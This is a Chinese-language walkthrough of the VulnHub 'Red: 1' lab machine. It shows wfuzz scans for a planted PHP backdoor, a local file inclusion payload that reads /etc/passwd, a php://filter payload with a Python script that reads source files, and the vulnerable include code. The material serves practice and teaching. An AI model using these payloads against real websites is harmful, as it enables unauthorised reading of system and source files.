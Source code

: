 [https://www.vulnhub.com/entry/red-1,753/](https://www.vulnhub.com/entry/red-1,753/)

在`/etc/hosts`中添加`192.168.56.101	redrocks.win`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161205693.png)

---

wordpress

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161206777.png)

wpscan没扫出来啥结果

在[http://redrocks.win/2021/10/24/hello-world/](http://redrocks.win/2021/10/24/hello-world/)有一句话`Still Looking For It? Maybe you should ask Mr. Miessler for help, not that it matters, you won't be able to read anything with it anyway`

发现其是[SecLists](https://github.com/danielmiessler/SecLists)的作者

用wfuzz配合seclists对网站后门进行扫描`wfuzz -w Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt -u http://192.168.56.101/FUZZ --hc 404`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161533616.png)

要对这个webshell的使用参数进行爆破`wfuzz -w ./Discovery/Web-Content/burp-parameter-names.txt -u "http://192.168.56.101/NetworkFileManagerPHP.php?FUZZ"`

fuzz出的结果为`key`,`NetworkFileManagerPHP.php?key=../../../../../../../etc/passwd`回显了`/etc/passwd`的结果,推测其为文件包含

```
john:x:1000:1000:john:/home/john:/bin/bash
ippsec:x:1001:1001:,,,:/home/ippsec:/bin/bash
oxdf:x:1002:1002:,,,:/home/oxdf:/bin/bash
```

`NetworkFileManagerPHP.php?key=php://filter/read=convert.base64-encode/resource=index.php`成功读出`index.php`的内容

```python
import requests
import base64

url="http://192.168.56.101/NetworkFileManagerPHP.php?key=php://filter/read=convert.base64-encode/resource="
filename="./index.php"

r=requests.get(url=url+filename)
print(base64.b64decode(r.text).decode("utf-8"))
```

`NetworkFileManagerPHP.php`

```php
<?php
   $file = $_GET['key'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("NetworkFileManagerPHP.php");
   }
   /* VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw== */
?>
```
